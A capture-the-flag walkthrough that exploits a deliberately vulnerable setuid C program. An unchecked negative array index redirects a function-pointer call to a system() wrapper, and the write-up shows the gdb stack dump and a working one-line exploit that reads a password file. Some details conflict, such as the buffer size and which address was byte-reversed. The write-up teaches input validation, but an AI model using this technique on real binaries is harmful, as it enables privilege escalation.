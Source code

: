 ## Level 3: validate user input and array boundaries

As usual,
the password for the next level is in `/home/level03/.password`,
and a vulnerable setuid program with its source code is in `/levels/level03`.

Let's start by playing with the program to get an idea what it does:
```
level02@box:~$ /levels/level03/level03
Usage: ./level03 INDEX STRING
Possible indices:
[0] to_upper    [1] to_lower
[2] capitalize  [3] length
level02@box:~$ /levels/level03/level03 0 hello
Uppercased string: HELLO
level02@box:~$ /levels/level03/level03 2 hello
Capitalized string: Hello
level02@box:~$ /levels/level03/level03 3 hello
Length of string 'hello': 5
```

The program takes a string and runs some function on it depending on the index parameter.
How can we misuse this?

- Use a very long string
- Use an index higher than 3
- Use a negative index

You can try these or others yourself.
We get the most interesting result with a negative index:
```
level02@box:~$ /levels/level03/level03 -1 x
Segmentation fault
```

Ouch. That can't be good.
Let's look at the relevant source code to see what happens to a negative index:
```
int main(int argc, char **argv) {
  int index;
  fn_ptr fns[NUM_FNS] = {&to_upper, &to_lower, &capitalize, &length};

  // Parse supplied index
  index = atoi(argv[1]);

  return truncate_and_call(fns, index, argv[2]);
}
```

The `main` method converts the index to an integer,
and calls the `truncate_and_call` function with 
an array of functions, the index, and the string argument.
Let's see this other function:
```
int truncate_and_call(fn_ptr *fns, int index, char *user_string) {
  char buf[64];
  // Truncate supplied string
  strncpy(buf, user_string, sizeof(buf) - 1);
  buf[sizeof(buf) - 1] = '\0';
  return fns[index](buf);
}
```

The function truncates the string to have at most 64 characters.
That's a good idea,
so even if we specified a very long string,
only the first 63 characters would be used.
Next, it takes a function pointer from the `fns` array,
and calls it using the truncated buffer as parameter.

But what if the index is negative?
By applying pointer arithmetics,
a negative index will reference a memory location before the beginning of `fns`.
But what is there?
The stack,
and understanding what is on the stack and how it works is the key in this challenge.

The stack is a memory region to store local variables,
function parameters, return values, among others.
The details depend on the CPU architecture,
but roughly the following happens when the `main` function calls `truncate_and_call`:

1. The function parameters are pushed on the stack in reverse order:
   the string, the index, the array of functions
2. The pointer to the next line of code in `main` is pushed on the stack
3. The function `truncate_and_call` is called
4. The local variable `buf` is pushed on the stack

When we reach the line of `fns[index](buf)`,
the content of the stack looks something like this:
```
0x0000      content of buf (1024 bytes)
0x0040+?    the return address
...
0x0040+X    content of fns (16 bytes) -->
0x0040+X        address of to_upper (4 bytes)
0x0040+X+4      address of to_lower
0x0040+X+8      address of capitalize
0x0040+X+12     address of length
0x00??      content of index
0x00??      content of user_string
```

If index is 0, 1, 2, or 3,
the program will find the address of `to_upper`, `to_lower`, `capitalize`, and `length`, respectively,
and execute it.
Using a negative index,
the program will take whatever it finds there,
and try to execute it just like the others.

Now,
if the content of `buf` is stored before `fns`,
then we can put there the address of a function,
and use an appropriate negative index to make the program execute it.
But what function do we want to execute?
This unused function looks perfect:
```
int run(const char *str) {
  // This function is now deprecated.
  return system(str);
}
```

It takes a string and calls `system`,
which in turn will run it like a shell command.
Since we can control the value of the parameter,
we can make the program run whatever we want.

Of course we need to know the address of the `run` function.
We can find that using `objdump`:
```
level02@box:/levels/level03$ objdump -d level03 | grep run
0804879b <run>:
080487ae <truncate_and_call>:
 8048806:   74 05                   je     804880d <truncate_and_call+0x5f>
 80488f1:   e8 b8 fe ff ff          call   80487ae <truncate_and_call>
```
The memory address of the `run` function is `0x0804879b`.

We still need to find the right negative index to use.
For that,
we need to figure out the gap in memory between `fns` and `buf`.
We can do that using `gdb`:
```
level02@box:/levels/level03$ gdb ./level03
(gdb) run -1 AAAAAAAA
Starting program: /levels/level03/level03 -1 AAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0xb77e1334 in ?? () from /lib/libc.so.6
(gdb) x/60xw $sp      
0xbfae3d3c: 0x080487fc  0xbfae3d6c  0xbfae4e4b  0x0000003f
0xbfae3d4c: 0xffffffff  0xbfae4e49  0xffffffff  0xbfae4e4b
0xbfae3d5c: 0xbfae3dd8  0x00000001  0x00000000  0x00000000
0xbfae3d6c: 0x41414141  0x41414141  0x00000000  0x00000000
0xbfae3d7c: 0x00000000  0x00000000  0x00000000  0x00000000
0xbfae3d8c: 0x00000000  0x00000000  0x00000000  0x00000000
0xbfae3d9c: 0x00000000  0x00000000  0x00000000  0x00000000
0xbfae3dac: 0xaf5a90a9  0x00000000  0x0000000a  0xbfae3df8
0xbfae3dbc: 0x080488f6  0xbfae3dd8  0xffffffff  0xbfae4e4b
0xbfae3dcc: 0x08048921  0xb7705f52  0xb77e1334  0x08048624
0xbfae3ddc: 0x08048680  0x080486dc  0x08048759  0x0000044e
```

Explanation:

1. `gdb ./level03`: start the debugger and load the program in memory

2. `run -1 AAAAAAAA`: run the program with the specified parameters.
   We used a negative index to make the program crash.
   We used a string that will be easy to recognize in the memory.

3. `x/60xw $sp`: print the next 60 "words", starting from the beginning of the stack (`$sp` = address of the stack pointer)

The string `AAAAAAAA` is easy to spot:
notice the cluster of `41`s there in the middle,
as that is the ASCII code of the "A" character.

Now we know where `buf` starts.
But we also need to find out where `fns` starts,
so that we can calculate how many bytes we need to point back.
To figure this out,
remember that `fns` contains the addresses of functions,
starting with the address of `to_upper`.
We can find the address of `to_upper` like we did earlier for `run`:
```
level02@box:/levels/level03$ objdump -d level03 | grep to_upper | head -n1
08048624 <to_upper>:
```

Now we can find `0x08048624` in the memory dump we printed earlier,
and calculate the correct negative index until some position in `buf`.
However,
keep in mind that we need to use `buf` for more than one thing:

1. We want to put the address of the `run` method somewhere in it.

2. It should start with a suitable shell command,
   that will be executed by the `run` method,
   and should reveal the content of the password file.

If, for example,
we put the command `cat /home/level03/.password;` in the string,
followed by the address of the `run` method,
the memory will look something like this:
```
0xbfae3d6c:   c a t       / h o m     e / l e     v e l 0
0xbfae3d7c:   3 / . p     a s s w     o r d ;   0x0804879b
0xbfae3d8c: 0x00000000  0x00000000  0x00000000  0x00000000
0xbfae3d9c: 0x00000000  0x00000000  0x00000000  0x00000000
0xbfae3dac: 0xaf5a90a9  0x00000000  0x0000000a  0xbfae3df8
0xbfae3dbc: 0x080488f6  0xbfae3dd8  0xffffffff  0xbfae4e4b
0xbfae3dcc: 0x08048921  0xb7705f52  0xb77e1334  0x08048624
```
In this case the address is 80 bytes away from `fns`.
However,
instead of bytes, we have to count *4-byte* words.
This is because the size of a pointer is 4-bytes,
thus every index in `fns` translates to 4 bytes difference in memory addresses of elements.
As a result, the index we're looking for is `-80/4 = -20`:
```
level02@box:/levels/level03$ ./level03 -20 "cat /home/level03/.password;$(printf '\x9b\x87\x04\x08')"
eingaima
cat: can't open '��': No such file or directory
```

Bingo!
Notice that we had to write the bytes of `0x08048624` in reverse order.
This is because in the OS of the live CD,
integers are represented with the least significant byte first.
Moreover,
the `;` is partly to make the beginning of the string a valid shell command,
and it also serves as a necessary padding,
making the distance between the jump address and `fns` a multiple of 4 bytes.

### Lessons to learn

- When validating user input,
  remember to consider nonsense input too,
  like negative indexes in this example.

- Always check array boundaries.

- Remove unused, deprecated code, especially if it might be dangerous.

